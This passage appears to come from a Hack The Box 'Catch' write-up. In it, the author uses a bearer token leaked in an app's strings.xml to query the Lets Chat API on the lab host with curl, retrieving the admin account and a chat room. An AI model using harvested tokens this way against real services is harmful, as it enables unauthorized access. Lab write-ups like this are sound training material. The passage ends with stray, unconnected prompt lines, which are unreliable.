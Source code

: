 ## Enumerating Let's Chat

Which is a file called strings.xml with tokens for gitea, lets chat and slack. The Lets Chat one is what we wanted, but it took me a fair bit of working out. To start with I found [this](https://github.com/sdelements/lets-chat/issues/436) and [this](https://github.com/taigaio/taiga-contrib-letschat/issues/2) which helped with how to use a bearer token, like the one we've just found, and using curl to interact with the Lets Chat API.

I also found [this](https://github.com/sdelements/lets-chat/wiki/API) which shows you how to use the API to retrieve data. First I looked at account:

```sh
┌──(root㉿kali)-[~/htb/catch/catchv1.0]
└─# curl -s -X GET "http://catch.htb:5000/account/" -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" | json_pp                              
{
   "avatar" : "e2b5310ec47bba317c5f1b5889e96f04",
   "displayName" : "Admin",
   "firstName" : "Administrator",
   "id" : "61b86aead984e2451036eb16",
   "lastName" : "NA",
   "openRooms" : [
      "61b86b28d984e2451036eb17",
      "61b86b3fd984e2451036eb18",
      "61b8708efe190b466d476bfb"
   ],
   "username" : "admin"
}
```

This showed a list of open rooms. Next I looked at the first room on the list:

```sh
┌──(root㉿kali)-[~/htb/catch/catchv1.0]
└─# curl -s -X GET "http://catch.htb:5000/rooms/61b86b28d984e2451036eb17" -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" | json_pp 
{
   "created" : "2021-12-14T10:00:08.384Z",
   "description" : "Cachet Updates and Maintenance",
   "hasPassword" : false,
   "id" : "61b86b28d984e2451036eb17",
   "lastActive" : "2021-12-14T10:34:20.749Z",
   "name" : "Status",
   "owner" : "61b86aead984e2451036eb16",
   "participants" : [],
   "private" : false,
   "slug" : "status"
}
```

Not overly helpful, although it does mention Cachet which we found earlier on port 8000. Looking at the docs again you can list all messages in a room, let's do that:


  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  us
  [no]:  yes